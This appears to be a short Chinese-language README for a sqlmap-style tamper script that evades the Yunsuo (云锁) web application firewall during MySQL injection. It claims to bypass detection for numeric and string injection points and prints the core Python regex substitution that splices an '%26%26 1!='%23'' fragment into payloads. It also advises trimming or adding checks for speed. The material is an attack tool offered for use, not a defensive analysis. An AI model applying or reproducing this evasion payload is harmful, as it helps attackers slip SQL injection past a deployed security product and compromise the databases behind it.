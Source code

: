 # Bypass


## 云锁绕过

当前版本的tamper可以绕过Mysql的注入的数字型，字符型，经过测试仅有一个xss警告。

tamper中的代码，前三个if判断仅仅是为了减少报错，真正完成匹配并替换的只有以下两句。
```python
rex = '^-{0,1}?[\d|\w]*%{0,1}[\'|"|`]*\\)*[ |;]'                        
payload = re.sub(rex, lambda x:x.group(0)+" %26%26 1!='%23' ", payload)   
```
可以根据自己的需求删除或增加判断代码，如果追求速度，可以将之前判断进行适当的修改或删除。
